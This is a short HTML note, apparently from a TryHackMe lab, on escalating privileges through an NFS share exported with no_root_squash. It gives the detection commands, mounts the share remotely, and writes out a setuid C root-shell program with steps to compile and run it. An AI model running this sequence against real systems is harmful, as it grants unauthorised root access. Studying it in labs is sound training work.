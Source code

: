 <!DOCTYPE html  PUBLIC '-//W3C//DTD XHTML 1.0 Transitional//EN'  'http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd'><html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta content="text/html; charset=utf-8" http-equiv="Content-Type"/>
<title>NFS</title>
</head><body>Exploiting NFS<br/>
<br/>
root squash is essentailly saying the action will be performed as root.<br/>
no root squash will not be performed as root<br/>
<br/>
<br/>
Identfy with <br/>
<br/>
<b>cat /etc/exports</b><br/>
<br/>
looking for folder that define 'no_root_squash'<br/>
<br/>
This means it can be mounted<br/>
<br/>
<img height="297" src="image.png" width="750"/><br/>
<br/>
<br/>
can mount from attack... remotely<br/>
<br/>
review by<br/>
<br/>
<b>showmount -e &lt;victim ip&gt;</b><br/>
<br/>
Will list mountable folders<br/>
<br/>
on attacker, make a new tmp dir to mount to<br/>
<br/>
<b>mkdir /tmp/mountme</b><br/>
<br/>
<br/>
mount with<br/>
<br/>
<b>syntax &gt; mount -o rw,vers=2 &lt;victim ip&gt;:/&lt;dir name&gt; /tmp/mountme</b><br/>
<br/>
<br/>
<br/>
From here folder is mounted.. create a malicious payload. put in shared folder... and exploit from victim machine<br/>
<br/>
use 1 liner<br/>
<br/>
<b>echo 'int main() { setgid(0); setuid(0); system(&quot;/bin/bash); return 0; } &gt; tmp/mountme/exploit.c</b><br/>
<br/>
check it with cat /tmp/mountme/exploit.c<br/>
<br/>
complile it<br/>
<br/>
<b>gcc /tmp/mountme/exploit.c -o /tmp/mountme/exploit</b><br/>
<br/>
<b>chmod +s /tmp/mountme/exploit</b><br/>
<br/>
<br/>
now its set move back to victim.<br/>
<br/>
cd to tmp (the share folder)<br/>
<br/>
run the exploit<br/>
<br/>
<b>./exploit</b><br/>
<br/>
<br/>
<br/>
notes from THM<br/>
<br/>
Detection<br/>
<br/>
Linux VM<br/>
<br/>
1. In command line type: cat /etc/exports<br/>
2. From the output, notice that “no_root_squash” option is defined for the “/tmp” export.<br/>
<br/>
Exploitation<br/>
<br/>
Attacker VM<br/>
<br/>
1. Open command prompt and type: showmount -e MACHINE_IP<br/>
2. In command prompt type: mkdir /tmp/1<br/>
3. In command prompt type: mount -o rw,vers=2 MACHINE_IP:/tmp /tmp/1<br/>
In command prompt type:<br/>
echo 'int main() { setgid(0); setuid(0); system(&quot;/bin/bash&quot;); return 0; }' &gt; /tmp/1/x.c<br/>
4. In command prompt type: gcc /tmp/1/x.c -o /tmp/1/x<br/>
5. In command prompt type: chmod +s /tmp/1/x<br/>
<br/>
Linux VM<br/>
<br/>
1. In command prompt type: /tmp/x<br/>
2. In command prompt type: id</body></html>